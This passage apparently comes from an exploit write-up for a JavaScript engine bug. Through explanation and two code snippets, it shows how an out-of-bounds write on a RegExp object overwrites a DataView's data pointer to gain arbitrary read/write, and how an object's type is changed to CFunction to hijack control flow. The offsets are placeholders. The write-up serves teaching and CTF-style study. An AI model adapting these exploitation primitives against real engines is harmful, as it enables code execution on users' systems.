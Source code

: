 So, the RegExp object will use the OOB to overwrite the DataView pointer, while the DataView will actually read and write to the pointer. The RegExp object tells the DataView object *where* to go, while the DataView object does the actual read/write. 

![](https://i.imgur.com/xqP7lWE.png)

*RegExp controlling where DataView goes, while DataView does the work.*

Hopefully you've got that hammered into your head now, but if not, here's an example!

```javascript
let worker = DataView(8);
// make source string long enough so that it gets allocated above worker
let vicitm = RegExp('/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/ig');
// insert code to change victim type here
// use the setUint32 function from dataview
victim.su32 = DataView.prototype.setUint32;

// write lower 32 bits to the data ptr of worker
victim.su32(offset_to_worker_data_ptr, 0xdeadbeef % 0x100000000);
// write upper 32 bits to the data ptr of worker
victim.su32(offset_to_worker_data_ptr + 4, 0xdeadbeef / 0x100000000);

// read 32 bits from 0xdeadbeef, segfault!
worker.getUint32(0);
```

Now that we have arbitrary read and write, we need to get arbitrary code execution.

### Arbitrary R/W to ACE

Now that we have arbitrary read and write, the heap is our oyster. Getting code execution is fairly easy from here! We just need to do a little more type confusion. For my implementation of ACE, I changed the type of a regular object to that of a CFunction, a type for built in C functions for JS. Ok, ok, you technically don't need arbitrary read and write to pull this off. In fact, the out of bounds of write is plenty to change the type of the regular object and write the address of the function to be executed. Here's my code to do this.

```javascript
var bad_fn = {};
let worker = DataView(8);
// make source string long enough so that it gets allocated above worker
let vicitm = RegExp('/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/ig');
// insert code to change victim type here
// use the setUint32 function from dataview
victim.su32 = DataView.prototype.setUint32;

// write to type of bad_fn to make it a CFunction
victim.su32(offset_to_bad_fn, 5);

// write lower 32 bits to the function ptr of CFunction
victim.su32(offset_to_bad_fn + 0x40, 0xdeadbeef % 0x100000000);
// write higher 32 bits to the function ptr of CFunction
victim.su32(offset_to_bad_fn + 0x40 + 4, 0xdeadbeef / 0x100000000);

// 0xdeadbeef is called. segfault!
bad_fn();
```
